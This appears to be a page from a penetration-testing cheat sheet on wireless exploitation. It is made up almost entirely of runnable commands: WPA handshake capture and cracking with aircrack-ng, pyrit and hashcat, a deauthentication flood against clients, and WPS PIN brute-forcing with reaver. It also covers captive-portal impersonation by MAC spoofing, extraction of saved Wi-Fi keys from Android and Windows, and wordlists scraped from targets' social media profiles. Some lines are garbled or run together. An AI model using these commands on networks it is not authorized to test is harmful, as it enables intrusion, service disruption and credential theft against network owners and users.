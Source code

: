 ```yaml
---
title: Wireless
category: Exploitation
order: 99
---
```


> **Monitor Mode** 

{% highlight bash %}
$ sudo airmon-ng start wlan0
{% endhighlight %}

Note: If an error occors try the following:
{% highlight bash %}
$ sudo airmon-ng check kill
$ sudo airmon-ng start wlan0
{% endhighlight %}

> **Break WPA** 

{% highlight bash %}
#Create a pyrit Rainbow table
#Create or select a wordlist
$ cewl http://www.facebookprofile.com >> wordlistUniq.lst 
$ cewl http://www.linkedinprofile.com >> wordlistUniq.lst 
$ grep -h -r  wordlistUniq.lst | sort | uniq > wordlistFinal.lst
$ grep -h -r """" [wordlist] | tr '[:space:]' '\n' | sort | uniq > wordlistUniq.lst 
$ john --wordlist=wordlistFinal.lst --rules:'[chosen rule set]' --stdout > mangledWordlist
# Rule set descriptions http://contest-2010.korelogic.com/rules.html
$ pyrit -e '[SSID]'  create_essid
$ pyrit -i mangledWordlist.txt import_passwords
$ pyrit batch
{% endhighlight %}

{% highlight bash %}
$ airodump-ng wlan0mon;
$ airodump-ng --ignore-negative-one --channel [channel] --bssid [bssid] wlan0mon -w WPAHandshake
#If you don't see a handshake, perform a deauth attack
$ sudo aireplay-ng --ignore-negative-one --deauth 1000 -a [bssid] -c [client MAC] wlan0mon
#Break with pyrite rainbow table
$ pyrit -r WPAHandshake-06.cap attack_batch
#Break with HashCat
$ aircrack-ng -J [SSID] WPAHandshake.cap
C:\ hashcat64.exe -m 2500 [SSID].hccap  rockyou.txt -r rules/best64.rule or PASSWORDSPRO
{% endhighlight %}

> **WPS** 

The following need to be installed:

* [Reaver](https://code.google.com/p/reaver-wps/)

{% highlight bash %}
#Search for WPS that is enabled and not locked
$ sudo wash -i wlan0mon -C

#Once located start the attack
$ sudo reaver -i wlan0mon 00:00:00:00:00:00 -S -v

#If reaver keeps tring 12345670:
$ sudo reaver -i wlan0mon -b 00:24:B2:88:CC:65 -S -v -N
{% endhighlight %}


> **Impersonate Departed User** 

Find a client:
{% highlight bash %}
sudo perl cpscam.pl 10.10.10.0 255.255.255.0  Change MAC: sudo 
{% endhighlight %}

Copy MAC Address:
{% highlight bash %}
ifconfig en0 ether 00:01:02:03:04:05 ifconfig eth 0 down ifconfig eth0 hw ether [MAC] ifconfig eth0 up
{% endhighlight %}

> **Client Keys** 

Android:
{% highlight bash %}
$ su -c "cat /data/misc/wifi/wpa_supplicant.conf" | grep psk=
{% endhighlight %}

OSX:
{% highlight bash %}
TBD
{% endhighlight %}

Windows:
{% highlight powershell %}
netsh wlan show profile name=”[apname]” key=clear 
{% endhighlight %}

> **Captive Portal: Impersonate Departed User**

[CPSCAM](http://www.willhackforsushi.com/code/cpscam.pl)

Find client: 
{% highlight bash %}
sudo perl cpscam.pl 10.10.10.0 255.255.255.0  
{% endhighlight %}

Change MAC: 
{% highlight bash %}
ifconfig eth 0 down 
ifconfig eth0 hw ether [MAC] 
ifconfig eth0 up
{% endhighlight %}


> **Useful Tools** 

* [http://www.nirsoft.net/utils/wireless_key.html](http://www.nirsoft.net/utils/wireless_key.html)



